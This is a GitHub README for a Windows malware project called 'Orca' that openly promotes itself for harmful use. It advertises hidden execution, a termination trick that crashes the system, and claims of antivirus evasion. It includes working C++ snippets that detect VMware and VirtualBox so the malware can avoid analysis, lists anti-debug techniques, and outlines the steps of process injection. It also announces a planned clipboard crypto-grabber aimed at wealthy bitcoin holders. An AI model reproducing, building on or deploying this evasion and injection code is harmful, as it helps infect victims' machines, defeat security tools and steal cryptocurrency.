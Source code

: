 
# About Orca

* Orca is an Advanced Malware with multifeatures written in ASM/C/C++ 

# features
* Run in Background (Hidden Mode)

### Anti-Task manager kill using RtlSetProcessIsCritical

* RtlSetProcessIsCritical used to protect the process from termination , any attempt to terminate it will cause the system to crash :(

<br>
<img src="https://github.com/walczy/Skinjbir/blob/main/r2.jpg"></img>
<br>

* Undectable  (60+ Antivirus )

<br>
<img src="https://github.com/walczy/Skinjbir/blob/main/r1.JPG"></img>
<br>

### Detecting Virtual Environment Files and Processes
* Code Snippets
* the following Function will search for VMware Processes

```cpp
void antiVm()
{
	const char* arr[] = { "vmtoolsd.exe","vmwaretray.exe","vmwareuser.exe" ,"VGAuthService.exe" ,"vmacthlp.exe" };
	for (int i = 0; i < strlen(*arr); i++)
	{
		if (GetPID(arr[i]))
			exit(EXIT_FAILURE);
	}
}
```
* the following Function will search for VirtualBox Files

```cpp
void antiVr() {
	if  (IsExist("C:\\windows\\System32\\vboxoglpackspu.dll"))exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\Drivers\\VBoxSF.sys")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\Drivers\\VBoxVideo.sys")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglpassthroughspu.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxdisp.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxhook.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxmrxnp.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxogl.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglcrutil.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\Drivers\\VBoxGuest.sys")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglerrorspu.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglfeedbackspu.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\Drivers\\VBoxMouse.sys")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglarrayspu.dll")) exit(EXIT_FAILURE);
}
```



### Anti-Debug
* the Malware will self close 'Silently' anytime detect a debugger or being debugged!! [AntiDBG Library](https://github.com/HackOvert/AntiDBG) 
-  The techniques that used to Detect debuggers :
```  
  - Memory
  - CPU
  - Timing
  - Forced Exceptions
  ```
# Process Injection

* [Process Injection](https://github.com/ZeroM3m0ry/Shellcode-Injector) It is a method of executing arbitrary code in the address space of a separate live process. Running code in the context of another process may allow access to the process’s memory, system/network resources, and possibly elevated privileges. Execution via process injection may also evade detection from security products since the execution is masked under a legitimate process.
* 
![Alt Text](https://github.com/ZeroM3m0ry/Orca/blob/main/pe-injection.gif)


### TECHNICAL DETAILS

* Open process with Access Rights
* LPTHREAD_START_ROUTINE (its a pointer to the application-defined function of type LPTHREAD_START_ROUTINE to be executed by the thread and represents the starting address of the thread in the remote process. The function must exist in the remote process.)
* VirtualAllocEx (used to allocate space from the target process virtual memory)
* WriteProcessMemory (used to write the path of the shellcode into the allocated memory)
* CreateRemoteThread (used to creates a thread in the virtual memory area of a process)

### More Advanced features will  be added soon like :

* 🔥 Crypto Grabber( technique used to steal crypto by manipulating  in clipboard ) i will add special update so you can target big holders ,eg the malware will work only when the victim is gonna transfer specific amount of bitcoin in ``` specific wallet``` (like >400 bitcoin)  ...

# Disclaimer
* I take no responsibility for Harmful using or any damage can make. Use it at your own risk.

